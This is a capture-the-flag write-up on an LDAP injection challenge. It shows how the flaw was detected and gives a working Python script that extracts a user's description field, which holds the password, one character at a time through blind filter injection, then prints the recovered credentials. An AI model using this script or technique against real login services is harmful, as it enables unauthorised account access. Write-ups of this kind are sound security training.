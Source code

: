 The challenge description states "We have created a Login service for our Active Directory", which suggests that LDAP is being used behind the login mechanism.

When attempting to log in with random credentials, the application returns the message "Login failed":

![Login Interface](./images/image.png)

However, when appending a closing parenthesis `)` to the username, the response changes to "Something went wrong", indicating a potential LDAP injection vulnerability.

Further testing with the `*` wildcard character as the username returns "Incorrect password", confirming that the injection is successfully retrieving a user but requires the correct password to proceed. This behavior cannot be easily bypassed.

The application includes an `/ldap` route that reveals the username we need to target:

![LDAP Route Information](./images/image(1).png)

This page provides a hint stating "They often leave the name in the description", suggesting we need to extract the user's description field through LDAP injection.

To automate the extraction of the user description, a Python script was developed that performs character-by-character enumeration:

```python
import requests
import string
import sys

URL = "http://target-url/"
username = "hdfstudent"
password = "loquesea"
description = ""
dictionary = string.printable

with requests.Session() as session:
    while True:
        for char in dictionary:
            request = session.post(URL, data = {"username": username + f")(description={description + char}*", "password": password})
            sys.stdout.write(f"\rdescription: {description + char}")
            sys.stdout.flush()
            if "Password incorrecta" in request.text:
                description += char
                break
```

The script injects LDAP filter conditions to match partial descriptions. When the server responds with "Password incorrecta" instead of the injection error, it confirms that the character is part of the description.

Through this method, the complete description `nOsv3m0s3nm0nt3rrey!!` is extracted, which serves as the user's password.

Using the credentials `hdfstudent:nOsv3m0s3nm0nt3rrey!!`, successful authentication is achieved, revealing the flag:

![Flag Retrieved](./images/image(2).png)